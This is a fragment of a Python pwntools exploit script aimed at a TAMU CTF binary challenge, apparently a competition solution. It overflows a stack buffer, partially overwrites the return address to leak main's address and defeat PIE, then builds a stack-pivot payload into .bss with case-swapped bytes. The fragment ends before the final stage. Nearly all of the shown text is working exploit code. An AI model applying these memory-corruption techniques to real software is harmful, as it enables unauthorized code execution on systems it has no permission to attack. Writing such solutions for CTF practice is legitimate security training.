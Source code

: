 ```python
            """)
    elif cond == 3:
        r = remote("tamuctf.com", 443, ssl=True, sni="tamuctf_debug-2")

    return r


def main():
    r = conn(1)

    # Offset Calculation
    sBuffer = 0x7fffffffd710
    sRip =    0x7fffffffd768
    offsetRip = sRip - sBuffer # 0x58

    r.sendlineafter(b" Exit\n", b"1")

    payload = b"A"*offsetRip + b"\xdd"
    r.sendafter(b" 69 characters)", payload) # Now we are back into main+43 (call menu)

    # With this we can leak the address of main
    r.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
    output = r.recvline()[:-1]
    leakMain = u64(output.ljust(8, b"\x00"))
    log.info(f"leakMain: {hex(leakMain)}")

    sbaseCode = 0x555555554000
    sLeakMain = 0x5555555553dd
    offsetBaseCode = sbaseCode - sLeakMain
    e.address = leakMain + offsetBaseCode
    log.info(f"baseCode: {hex(e.address)}")

    #-----------------------------------------------------------------------------------------------------

    def convert_case(byte):
        targetAddress = bytearray(byte)  # Convert to mutable bytearray
        for i, byte in enumerate(targetAddress):
            if 97 <= byte <= 122:
                targetAddress[i] = byte - 32  # Convert to uppercase
            elif 65 <= byte <= 90:
                targetAddress[i] = byte + 32  # Convert to lowercase

        return bytes(targetAddress)  # Convert back to immutable bytes if needed


    log.info(f"bss: {hex(e.bss())}")
    log.info(f"got puts: {hex(e.got['puts'])}")
    log.info(f"plt puts: {hex(e.plt['puts'])}")

    # stack pivoting
    payload = b"A"*(offsetRip - 8)
    payload += convert_case(p64(e.bss() + 0x808))
    payload += convert_case(p64(e.symbols["menu"] + 4))

    r.sendlineafter(b" Exit\n", b"1")
    r.sendafter(b" 69 characters)", payload)

    #-----------------------------------------------------------------------------------------------------

    r.sendlineafter(b" Exit\n", b"1")
```